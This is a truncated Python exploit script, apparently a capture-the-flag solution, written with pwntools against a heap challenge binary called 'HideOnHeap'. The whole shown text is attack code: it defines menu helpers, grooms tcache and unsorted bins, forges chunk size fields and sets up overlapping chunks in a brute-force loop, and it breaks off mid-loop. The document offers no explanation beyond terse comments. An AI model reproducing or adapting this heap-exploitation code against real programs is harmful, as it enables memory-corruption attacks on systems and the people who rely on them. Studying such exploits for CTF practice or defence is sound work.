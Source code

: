 ```python
#-----------------------------------------------------------------------------------------

def add(size):
    sla("Choice:",1)
    sla("Size:",size)

def edit(idx,con):
    sla("Choice:",2)
    sla("Index:",idx)
    p.sendafter("Content:",con)

def dele(idx):
    sla("Choice:",3)
    sla("Index:",idx)

while True:
    p = process("./HideOnHeap")
    elf = ELF("./HideOnHeap")
    libc = elf.libc
    try:
        chunk = 0x4040
        chunksize = 0x4140

        add(0x88)#0
        add(0x88)#1
        for i in range(7):
            add(0x88)#2-8

        add(0x3f0)#9
        add(0x3f0)#10
        for i in range(7):
            add(0x3f0)#11-17
        #------------------------------------------------------
        edit(2,'a'*0x20+'\x00'*8+p64(0x21))
        edit(13,'a'*0x30+'\x00'*8+p64(0x21)+'\x00'*0x8+p64(0x21)+'\x00'*0x8+p64(0x21))

        for i in range(2,9):
            dele(i)
        dele(1)
        dele(0)

        add(0x88)# 0
        dele(1)# put in tcache

        for i in range(7):
            add(0x88)# 1-7
        add(0x118)# 8-lowhalf 1
        #---------------------------------------------------------
        for i in range(11, 18):
            dele(i)

        dele(10)
        dele(9)

        add(0x3F0)# 9
        dele(10)
        for i in range(7):
            add(0x3F0) #10-16

        add(0x3F0) #17
        add(0x3F0) #18 == 10
        #------------------------------------------------------------
        for i in range(7):
```